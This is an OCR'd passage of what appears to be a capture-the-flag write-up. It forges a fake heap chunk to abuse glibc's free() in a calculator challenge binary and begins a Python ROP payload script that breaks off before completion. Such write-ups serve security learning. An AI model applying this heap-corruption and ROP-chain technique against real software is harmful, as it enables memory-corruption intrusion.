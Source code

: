 * `block = p - p->prev_size = 0x6c4ab0 - p->prev_size`: `block` must end with
  `0x000` therefore `prev_size` ends with `0xab0`
* `total_size = p->prev_size + size`: `total_size` must end with `0x000`
  therefore `size` must end with `0x1000 - 0xab0 = 0x550`

There is is problem here because the second bit of `size` would not be set and
we would not enter the first `if` we mentioned at the beginning of this
section. We can add it without any problem because, as mentioned above, the
macro `chunksize`will remove it, which gives us the following values for the
operation:

* `sub_r = 0x552` = 1362
* `sub_x = 0xab0` = 2736
* `sub_y = sub_x - sub_r` = 1374

The pointer to pass to `free` is the address of the memory region as given by a
call to `malloc`, not the address of the chunk that we used lately. The correct
address to pass to `free` is `0x6c4ac0` because the fields `size` and
`prev_size` are located respectively 8 bytes and 16 bytes before it as shown at
the beginning of the free function:
{% highlight ca65 %}
| 0x004156e9      488b47f8       mov rax, qword [rdi - 8]    ; size
| 0x004156ed      488d77f0       lea rsi, qword [rdi - 0x10] ; prev_size
{% endhighlight %}

# Final payload

Compared to the payload of the Simple Calc, we have to modify the 18 dwords of
padding with the address corresponding to the fake chunk we will create and add
a last operation before triggering the buffer overflow with the option 5:
{% highlight python %}
#!/usr/bin/env python3

from time import sleep
from sys import stdout

payload = []

number = '40\n'
payload.append(number)

# add padding corresponding to the fake chunk address
# note: 18 dwords have to be filled, but the address is a qword therefore we
# have to loop half as much as before
for i in range(0,9):
    payload.append('1\n3548512\n3548512\n')
    payload.append('2\n42\n42\n')           # PADD

# 0x44db34 : pop rax ; ret
payload.append('1\n2256282\n2256282\n') #ADD 2256282 2256282
payload.append('2\n42\n42\n')           # PADD
# 0x3b
payload.append('2\n101\n42\n')          #SUB 101 42
payload.append('2\n42\n42\n')           # PADD

[glibc]: https://www.gnu.org/software/libc/
[free]: https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=b8a43bfb32bcd97a6ed468cb7635b4bbfef2e3a2;hb=HEAD#l2925
[tenways]: http://lifehacker.com/top-10-ways-to-hack-your-grill-1607315381